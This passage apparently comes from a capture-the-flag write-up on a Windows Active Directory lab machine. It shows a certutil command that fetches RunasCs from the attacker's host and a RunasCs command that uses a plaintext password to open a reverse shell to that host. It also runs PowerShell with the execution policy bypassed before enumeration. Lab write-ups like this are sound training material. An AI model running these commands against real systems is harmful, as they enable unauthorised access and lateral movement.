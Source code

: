 For instances like this, there's a tool called [RunasCs](https://github.com/antonioCoco/RunasCs) that's written in C# (hense "Cs") that functions the same way as `runas` but we can pass the password directly in the command. It also has `-r` flag which can be used to redirect the connection to another server, acting essentially as a reverse shell for us. 

We'll download the tool to our `Kali` machine first and then we'll host it and download it to the victim machine. We can use `certutil` to download files on Windows -
```cmd
certutil -urlcache -f http://10.10.16.17/RunasCs.exe C:\Users\svc_apache\Downloads\RunasCs.exe
```

After downloading the tool, we'll run the tool with `-r` flag to connect to `nc` listener on our `Kali` machine -
```RunasCs.exe
RunasCs.exe c.bum Tikkycoll_431012284 powershell -r 10.10.16.17:4444
```

![Shell as C.Bum](Images/c.bum_shell.png)

We'll get a reverse shell as *C.Bum* and `user.txt` is found in `C:\Users\c.bum\Desktop` folder.


# Enumeration for Lateral Movement
### Running PEAS Scripts
Now that I have a shell as *C.Bum*, a user with highest privilege so far, it's time to start enumeration for lateral movement. Since it's running **Active Directory** services, I decided to run [adPEAS](https://github.com/61106960/adPEAS) first. It's a `powershell` script so it's better if we have a `powershell` shell - 
```cmd
powershell -ep bypass   # Spawning a powershell if we're in cmd
```
